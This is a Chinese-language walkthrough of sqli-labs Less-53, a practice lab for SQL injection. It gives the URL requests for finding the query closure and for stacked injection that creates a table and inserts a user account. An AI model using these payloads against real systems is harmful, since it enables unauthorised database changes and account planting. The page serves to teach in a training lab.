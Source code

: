 ```yaml
---
title: Less - 53
date: 2023-03-24T12:54:32Z
lastmod: 2023-03-24T13:13:10Z
---
```


# Less - 53

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1'--+
```

​![image](assets/image-20230324125858-w7h8rpw.png)​

所以判断这里闭合方式为’–+，并且为字符型注入。因为这里没有完整错误回显，所以这里我们只能使用时间盲注，但是在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里我们也可以使用堆叠注入攻击。

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1';create table test like users; --+
```

​![image](assets/image-20230324131145-68du6n0.png)​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1';insert into users values(18,'cmx','cmx'); --+
```

​![image](assets/image-20230324131241-p0ogk72.png)​

​![image](assets/image-20230324131308-wkm7tez.png)​

‍
